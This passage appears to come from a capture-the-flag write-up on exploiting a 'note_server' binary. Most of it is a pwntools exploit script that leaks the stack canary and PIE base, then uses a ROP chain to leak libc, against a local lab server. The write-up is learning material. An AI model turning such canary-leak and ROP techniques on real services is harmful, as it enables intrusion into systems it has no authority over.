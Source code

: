 I did learn something very useful for the future - compiling with `-ggdb` will compile with source code intact - very useful for analysis and debugging

Wrote a few different Python scripts trying to exploit this, but in the end I needed to look at the official writeup to find out what I had been doing wrong.

```python
from pwn import *
context.binary = './note_server.remote'
e = context.binary
libc = ELF('./libc_remote.so', checksec=False)
p = remote("127.0.0.1", 5001)

def write(size, data):
    p.send("\x01")
    p.send(p8(size))
    p.send(data)

def copy(offset, size):
    p.send("\x02")
    p.send(p16(offset))
    p.send(p8(size))

def read():
    p.send("\x03")

def doRop(rop):
    payload = b"A" * 8 + p64(canary) + b"A" * 8 + bytes(rop)
    write(0xff, payload + b'A' * (0xff - len(payload)))
    for i in range(3):
        write(0xff, "A" * 0xff)
    write(0x04, "A" * 0x4)
    copy(0, len(payload))
    read()
    p.recv(1024 + len(payload))

for i in range(4):
    write(0xff, "A" * 0xff)
write(0x04, "A" * 0x4)

copy(1024, 0xff)
read()

p.recv(1024)

leak = u64(p.recv(8)) # Ignore stack address

canary = u64(p.recv(8))
log.success(f"Leaked canary: {hex(canary)}")

p.recv(8) # Ignore stack address

leak = u64(p.recv(8))
log.success(f"PIE leak : {hex(leak)}")
e.address = leak - 0xf54 # Calculate PIE base
p = remote("127.0.0.1", 5001) # Reconnect

rop = ROP(e)
rop.call(e.plt['write'], [4, e.got['read']])

doRop(rop)
leak = u64(p.recv(8))
log.success(f"Libc leak : {hex(leak)}")
libc.address = leak - libc.sym['read']

```